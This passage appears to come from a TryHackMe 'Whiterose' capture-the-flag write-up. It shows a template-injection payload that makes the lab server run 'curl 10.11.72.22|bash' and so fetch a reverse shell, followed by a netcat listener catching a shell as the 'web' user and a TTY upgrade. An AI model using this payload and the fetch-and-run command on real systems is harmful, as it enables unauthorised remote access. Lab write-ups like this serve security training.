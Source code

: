 Once the web server is serving the reverse shell payload, we can modify our injected payload to make the server download and execute the reverse shell. This step allows the server to initiate a connection back to our attacking machine, granting us access to the system.

```console
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.11.72.22|bash');s
```
{: .wrap }

After sending our payload, the server becomes unresponsive, and we successfully receive a shell as the `web` user. This confirms that the reverse shell has been executed, giving us control over the server.

![Web 80 Admin Settings Eight](/images/tryhackme_whiterose/web_80_admin_settings8.webp){: width="1000" height="500" }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.116.77] 49286
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

web@cyprusbank:~/app$ 
```
